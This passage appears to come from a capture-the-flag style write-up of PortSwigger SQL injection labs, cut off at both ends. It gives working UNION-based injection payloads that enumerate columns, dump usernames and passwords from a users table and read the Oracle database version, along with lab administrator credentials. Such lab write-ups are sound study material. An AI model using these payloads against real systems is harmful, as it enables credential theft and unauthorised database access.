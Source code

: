 To check the column with the string payload: `category' UNION SELECT NULL,'a',NULL--`
- The second column returns a string payload that can be used to get info from the database
- To solve the lab: `category' UNION SELECT NULL,'kyFUj0',NULL--`

### [Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

Vulnerable URL: https://domain/filter?category=category

To check the number of columns returned by the query: `category' UNION SELECT NULL,NULL--`

To check the column with the string payload: `category' UNION SELECT 'a','a'--`

To retrieve the data: `category' UNION SELECT username,password FROM users--`
- To solve the lab, just log in as `administrator:1tmn9btoqihk657tsaxd`

### [Lab: SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

Vulnerable URL: https://domain/filter?category=category

To check the number of columns returned by the query: `category' UNION SELECT NULL,NULL--`

To check the column with the string payload: `category' UNION SELECT NULL,'a'--`

To retrieve the data: `category' UNION SELECT NULL,username || ':' || password FROM users--`
- Only one column returns a string, so we have to concatenate the content in one column using `||`
- To solve the lab, we just log in as `administrator:93tj2cw6fpat84p6tmna`

### [Lab: SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

Vulnerable URL: https://domain/filter?category=category

To check the number of columns returned by the query: `category' UNION SELECT NULL,NULL FROM dual--`
- On Oracle databases, we have to specify the table when using the `UNION` statement. The `dual` table can be used for that purpose

To check the column with the string payload: `category' UNION SELECT 'a','a' FROM dual--`

To retrieve the data: `category' UNION SELECT BANNER,NULL FROM v$version--`
- The table `v$version` contains information on the database. This table has a column `BANNER` with the database version

### [Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

Vulnerable URL: https://domain/filter?category=category
